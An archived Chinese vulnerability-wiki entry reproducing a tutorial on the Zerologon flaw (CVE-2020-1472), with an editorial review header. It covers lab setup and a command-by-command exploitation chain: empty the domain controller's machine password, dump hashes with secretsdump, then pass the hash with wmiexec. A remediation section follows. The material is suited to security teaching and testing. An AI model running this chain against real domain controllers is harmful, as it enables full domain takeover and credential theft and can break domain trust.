# 漏洞技术 - cve-2020-1472

> 编号角色校订（2026-10-04）：按归档技术正文区分主讨论编号与背景引用，更新 `primary_identifiers` / `referenced_identifiers` 及旧字段角色。旧编号原值、状态与正文保持原样，变更前字段逐字保存在 `previous_*`；后文旧的角色待核说明应按当前字段阅读。这里的角色判读不等于官方分配核验或漏洞复现。

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：Windows Netlogon Zerologon CVE-2020-1472
- 文献类型：技术文章（细分类待核）
- 版本、权限及部署边界：元数据只抓第一Windows版本，缺各KB/阶段更新；域控角色和RPC可达必需，非列举Server均可无条件利用；关闭IPv6不是漏洞前提
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. 元数据只抓第一Windows版本，缺各KB/阶段更新
2. 域控角色和RPC可达必需，非列举Server均可无条件利用
3. Secura tester与重置密码EXP分开是优点，但随后清空域控机器账号密码/导出全域hash/横向执行明显攻击性，与免责声明仅探测无攻击自相矛盾
4. 无机器账号密码恢复步骤或域信任破坏提醒
5. impacket未固定兼容版，secretsdump/$转义和LM:NT格式说明不足
6. 关闭IPv6不是漏洞前提
7. 官方4557222链接可核强制模式但需部署兼容影响

### 操作风险

原文技术操作的实际副作用未复现核验；按其请求/代码评估状态变更、凭据暴露和业务影响

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原文标注出处：<https://mp.weixin.qq.com/s/TaG135KzNIW07PdHsjCjxA>

### 归档技术正文

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/TaG135KzNIW07PdHsjCjxA)


本文由 “网络安全检测与防护技术国家地方联合工程研究中心深圳分中心——东塔网络安全学院” 总结归纳

**0x00 简介**

NetLogon 远程协议是一种在 Windows 域控上使用的 RPC 接口, 被用于各种与用户和机器认证相关的任务。最常用于让用户使用 NTLM 协议登录服务器，也用于 NTP 响应认证以及更新计算机域密码

**0x01 漏洞概述**

攻击者使用 Netlogon 远程协议 (MS-NRPC) 建立与域控制器连接的 Netlogon 安全通道时，存在特权提升漏洞。当成功利用此漏洞时，攻击者可无需通过身份验证，在网络中的设备上运行经特殊设计的应用程序，获取域控制器的管理员权限。

**0x02 影响范围**

```
Windows Server, version 2004 (Server Core installation)
Windows Server 2008 R2 for x64-based Systems Service Pack 1
Windows Server 2008 R2 for x64-based Systems Service Pack 1 (Server Core installation)
Windows Server 2012
Windows Server 2012 (Server Core installation)
Windows Server 2012 R2
Windows Server 2012 R2 (Server Core installation)
Windows Server 2016
Windows Server 2016 (Server Core installation)
Windows Server 2019
Windows Server 2019 (Server Core installation)
Windows Server, version 1903 (Server Core installation)
Windows Server, version 1909 (Server Core installation)
```

**0x03 环境搭建**

环境：Windows2008R2

1. 下载 windows2008R2，在 VMware 中安装虚拟机，安装完成后在 windowsR2 中安装 AD 域控。

2. 首先把域控 IP 设置为静态 IP，DNS 地址设置为和静态 IP 一样的。然后把 ipv6 的前面的√去掉



3. 安装域，点击 “服务管理器”，点击 “添加角色”，选择 AD 域服务一直点击下一步安装



4. 安装完成后在完成界面点击域服务安装向导，点击下一步



4.1 选择 “在新林中新建域”，点击下一步，设置一个域名





4.2 在林功能级别选择 windows2008R2, 点击下一步安装 dns，这里选择 “是” 即可



4.3 一直下一步设置密码，下一步安装完成重启计算机即可



**0x04 漏洞复现**

1. 使用 poc 验证目标机器是否存在漏洞，poc 需要在 python3 中安装 impacket 依赖包

```
Poc下载地址：https://github.com/SecuraBV/CVE-2020-1472
pip install -r requirements.txt
```



```
python3 zerologon_tester.py 计算机名 域控IP
```



2. 漏洞利用，下载漏洞利用的 exp 进行漏洞利用

```
https://github.com/blackarrowsec/redteam-research
python3 CVE-2020-1472.py DC-name NetBIOS-name Target-ip
```



3. 执行以上 exp 后密码重置为空，安装 python3 的 impacket 扩展，使用 secretsdump.py，dump 出密码

```
pip3 install impacket
```



```
python3 secretsdump.py test1.com/WIN-TSFNUKNLOPJ$@172.16.1.110 如果是kali需要在$@前添加\
```





4. 在使用 Impacket 库中 wmiexec.py 脚本使用 administrator 的 hash 横向连接过去

```
wmiexec.py -hashes administrator的hash值 test1.com/administrator@172.16.1.110
```



**0x05 漏洞修复**

1. 开启 DC 强制模式

开启的 DC 的强制模式，具体可参考下面的链接进行操作

```
https://support.microsoft.com/zh-cn/help/4557222/how-to-manage-the-changes-in-netlogon-secure-channel-connections-assoc
```

2. 应及时进行 Microsoft Windows 版本更新并且保持 Windows 自动更新开启。

3. 在微软官方下载相关的漏洞修补补丁

免责申明：   

本项目仅进行信息搜集，漏洞探测工作，无漏洞利用、攻击性行为，发文初衷为仅为方便安全人员对授权项目完成测试工作和学习交流使用。

请使用者遵守当地相关法律，勿用于非授权测试，勿用于非授权测试，勿用于非授权测试（重要的事情说三遍），如作他用所承受的法律责任一概与东塔网络安全学院无关！

东塔网络安全学院在各大平台均上线了各项活动和学习内容，快快登录以下各大平台学习起来吧~  

微博、腾讯课堂、知乎、今日头条、抖音：

东塔网络安全学院

哔哩哔哩：东塔网络安全

了解更多活动和咨询欢迎微信添加：dongtakefu

  

  


- 免费获取学习资料

电子书籍、试听课程 -

  

  


点击蓝字

分享我们

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
